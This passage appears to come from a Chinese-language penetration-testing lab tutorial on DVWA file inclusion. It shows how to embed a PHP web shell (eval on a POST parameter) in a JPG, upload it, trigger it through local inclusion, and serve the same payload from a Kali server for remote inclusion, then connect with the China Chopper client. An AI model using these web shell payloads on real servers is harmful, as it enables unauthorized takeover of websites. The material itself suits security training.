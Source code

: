 方法一：windows命令

```shell
> copy duck.jpg/b+shell.php duck1.jpg     #通过duck.jpg加上恶意代码shell.php生成木马图片duck1.jpg
```

![image-20220902123943445](D:\Ronnie\.assets\image-20220902123943445.png)

方法二：edjpgcom工具

将图片拖动到.exe执行文件：

![image-20220902131009198](D:\Ronnie\.assets\image-20220902131009198.png)

![image-20220902131049745](D:\Ronnie\.assets\image-20220902131049745.png)

在空白框填入我们的代码：

```php
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>
```

**b. 上传木马图片**

![image-20220902125209662](D:\Ronnie\.assets\image-20220902125209662.png)

**c. 执行包含图片文件**

查看图片文件路径：

![image-20220902125503781](D:\Ronnie\.assets\image-20220902125503781.png)

执行：

![image-20220902125926601](D:\Ronnie\.assets\image-20220902125926601.png)

**d. 查看已经生成木马文件shell2.php**

![image-20220902130411724](D:\Ronnie\.assets\image-20220902130411724.png)

**e. 然后通过菜刀连接**：https://192.168.254.177/dvwa/vulnerabilities/fi/shell2.php

### 3.远程文件包含

1.准备远程文件

找一台远程服务器，可以提供网站服务的。通过远程包含的文件去生成木马文件

我这里使用kali来做远程服务器:

```shell
$ systemctl start apache2     # 启动apache服务
$ vim /var/www/html/a.txt
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>

```

2.执行远程包含文件![image-20220902161827937](D:\Ronnie\.assets\image-20220902161827937.png)
